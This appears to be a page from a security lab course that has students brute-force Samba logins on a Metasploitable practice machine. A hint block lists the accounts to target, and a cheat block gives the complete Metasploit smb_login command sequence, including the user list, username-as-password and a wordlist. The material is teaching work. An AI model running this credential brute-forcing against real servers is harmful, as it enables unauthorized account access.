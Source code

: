 ### Task 2

Use the SMB Login Check Scanner to brute force into Samba. Try the
username as the password for all users. Use the **seccon.txt** wordlist


{% capture text %}
<pre>
To reduce the amount of work you have to do, only attempt to brute-force
the following accounts:\

      msfadmin
      user
      postgres
      sys
      klog
      service
</pre>
{% endcapture %}
{% include hint.html text=text %}


{% capture text %}
<pre>
      seccon@seccon-kali1:~/labs/08-accounts$ cat users
      msfadmin
      user
      postgres
      sys
      klog
      service

      seccon@seccon-kali1:~/labs/08-accounts$ sudo msfconsole
      ...
      msf > use auxiliary/scanner/smb/smb_login
      msf auxiliary(smb_login) > set RHOSTS metasploitable
      RHOSTS => metasploitable
      msf auxiliary(smb_login) > set USER_AS_PASS true
      USER_AS_PASS => true
      msf auxiliary(smb_login) > set PASS_FILE /usr/share/wordlists/seccon.txt
      PASS_FILE => /usr/share/wordlists/seccon.txt
      msf auxiliary(smb_login) > set USER_FILE users
      USER_FILE => users
      msf auxiliary(smb_login) > run
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 3

View the captured credentials in the database. What is the password
for `sys` account?

### Bonus
